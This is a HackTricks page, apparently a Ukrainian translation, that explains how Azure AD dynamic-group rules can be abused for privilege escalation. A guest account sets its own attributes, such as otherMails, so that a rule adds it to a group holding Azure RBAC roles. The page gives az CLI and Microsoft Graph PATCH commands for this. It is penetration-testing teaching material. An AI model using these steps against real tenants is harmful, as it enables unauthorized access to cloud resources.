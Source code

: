 # Az - Динамічні Групи Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Основна Інформація

**Динамічні групи** — це групи, які мають набір **правил**, і всі **користувачі або пристрої**, що відповідають цим правилам, додаються до групи. Кожного разу, коли **атрибут** користувача або пристрою **змінюється**, динамічні правила **перевіряються знову**. І коли **створюється нове правило**, всі пристрої та користувачі **перевіряються**.

Динамічні групи можуть мати **призначені ролі Azure RBAC**, але **неможливо** додати **ролі AzureAD** до динамічних груп.

Ця функція вимагає ліцензії Azure AD premium P1.

## Privesc

Зверніть увагу, що за замовчуванням будь-який користувач може запрошувати гостей в Azure AD, тому, якщо правило **динамічної групи** надає **дозволи** користувачам на основі **атрибутів**, які можуть бути **встановлені** у нового **гостя**, можливо **створити гостя** з цими атрибутами та **ескалювати привілеї**. Також можливо, щоб гість керував своїм профілем і змінював ці атрибути.

Отримати групи, які дозволяють динамічне членство: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Приклад

* **Приклад правила**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Опис правила**: Будь-який гість з вторинною електронною поштою, що містить рядок 'security', буде доданий до групи

Для електронної пошти гостя, прийміть запрошення та перевірте поточні налаштування **цього користувача** в [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
На жаль, сторінка не дозволяє змінювати значення атрибутів, тому нам потрібно використовувати API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Посилання

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
